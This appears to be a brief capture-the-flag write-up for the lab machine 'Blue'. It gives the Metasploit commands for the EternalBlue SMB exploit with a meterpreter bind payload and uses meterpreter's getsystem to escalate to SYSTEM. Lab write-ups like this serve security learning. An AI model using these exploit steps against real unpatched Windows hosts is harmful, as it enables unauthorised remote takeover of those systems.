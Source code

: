 # Blue - 10.10.10.40
## Hunch
Blue seems to reference the eternalblue exploit from our boys at the NSA, so let's try that.

```
# msfconsole

msf > use exploit/windows/smb/ms17_010_eternalblue

set RHOST 10.10.10.40

set payload windows/x64/meterpreter/bind_tcp
```
User flag, wheee

## Privesc
A good first step seems like meterpreter get system
```
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
```
[Cobalt strike](https://blog.cobaltstrike.com/2014/04/02/what-happens-when-i-type-getsystem/)'s explination of what actually happens is nice. 


